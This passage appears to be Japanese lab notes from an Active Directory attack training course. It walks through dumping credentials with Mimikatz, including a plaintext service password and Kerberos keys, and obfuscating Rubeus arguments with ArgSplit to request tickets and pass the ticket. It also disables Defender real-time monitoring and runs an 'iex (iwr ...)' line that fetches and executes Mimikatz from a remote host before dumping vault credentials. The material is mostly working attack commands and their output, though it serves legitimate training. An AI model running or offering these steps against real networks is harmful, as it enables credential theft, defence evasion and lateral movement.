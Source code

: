 ```
68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb 
           aes128_hmac       449e9900eb0d6ccee8dd9ef66965797e 
           rc4_hmac_nt       d549831a955fee51a43c83efb3928fa7 
           rc4_hmac_old      d549831a955fee51a43c83efb3928fa7 
           rc4_md4           d549831a955fee51a43c83efb3928fa7 
           rc4_hmac_nt_exp   d549831a955fee51a43c83efb3928fa7 
           rc4_hmac_old_exp  d549831a955fee51a43c83efb3928fa7 
 
Authentication Id : 0 ; 57647 (00000000:0000e12f) 
Session           : Service from 0 
User Name         : websvc 
Domain            : dcorp 
Logon Server      : DCORP-DC 
Logon Time        : 3/3/2023 2:39:11 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1114 
 
         * Username : websvc 
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL 
         * Password : AServicewhichIsNotM3@nttoBe 
         * Key List : 
           aes256_hmac       
2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 
           aes128_hmac       86a353c1ea16a87c39e2996253211e41 
           rc4_hmac_nt       cc098f204c5887eaa8253e7c2749156f 
           rc4_hmac_old      cc098f204c5887eaa8253e7c2749156f 
           rc4_md4           cc098f204c5887eaa8253e7c2749156f 
           rc4_hmac_nt_exp   cc098f204c5887eaa8253e7c2749156f 
           rc4_hmac_old_exp  cc098f204c5887eaa8253e7c2749156f 
 
[snip]
```

---
6. RubeusのasktgtとLoader.exeとエンコードされた引数で使用する。
- ArgSplitの実行
```
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat 
[!] Argument Limit: 180 characters 
[+] Enter a string: asktgt 
set "z=t" 
set "y=g" 
set "x=t" 
set "w=k" 
set "v=s" 
set "u=a" 
set "Pwn=%u%%v%%w%%x%%y%%z%" 
```

- Rubeus.exe
```
C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:srvadmin /aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt 
[snip] 
```
---
7. srvadminがほかのマシンでも管理者権限を持っているか確認
```
C:\Windows\system32>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
[snip] 
  
PS C:\Windows\system32> . C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1 
PS C:\Windows\system32> Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

```

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 
